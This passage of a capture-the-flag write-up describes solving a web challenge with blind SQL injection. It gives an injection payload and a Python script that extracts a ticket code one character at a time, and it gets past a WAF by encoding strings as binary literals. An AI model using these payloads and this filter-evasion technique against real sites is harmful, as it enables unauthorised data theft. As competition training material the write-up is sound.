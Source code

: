 
Let's try to extract the `code` of first ticket (The error message indicates that the column is named `code`) to see if it's the flag. The flag format is `DCTF{hex_digit}`.

```
# return first ticket
/'=''&& (select code from tickets where id = 1)>'DCT' && (select code from tickets where id = 1)<'DCU'|| 'a'='
```
Bingo, but unfortunately `DCTF` is WAFed. We have to find another way to represent the string.


#### Solution 1

`0x` and most string function are WAFed. Eventually we use `0b00000001` to represent a string.

```python
#!/usr/bin/env python3
from urllib.parse import quote
import string
import requests
import base64
def b64(s):
    return base64.b64encode(s.encode()).decode()

s = requests.session()
cookies ={
# omitted
}
 
test = 'https://ticketcore.dctf18-finals.def.camp/printable-ticket/'

def isCorrect(r):
    if r.status_code != 200:
        print('syntax error')
        return  False
    if 'WAF 1337 Alert!' in r.text:
        print('WAF')
        return False
    elif 'Hmm, the ticket code is empty or missing. Please contact support!' in r.text:
        return False
    else:
        return True

def isWAF(r):
    return 'WAF 1337 Alert!' in r.text

flag = 'dctf{'

while True:
    bingo = False
    for i in '}0123456789abcdef':
        print(i)
        larger_than = '0b' + ''.join(['{:08b}'.format(ord(j)) for j in flag]) + '{:08b}'.format(ord(i)) + '00000000'
        less_than = '0b' + ''.join(['{:08b}'.format(ord(j)) for j in flag]) + '{:08b}'.format(ord(i)) + '01011010'
        print(larger_than)
        r = s.get(test + quote(f"'=''&& (select code from tickets where id = 1) > {larger_than} && (select code from tickets where id = 1) < {less_than} || 'a'='"), cookies=cookies)
        if isCorrect(r):
            print('bingo')
            bingo = True
            flag += i
            print('flag', flag)
            break
```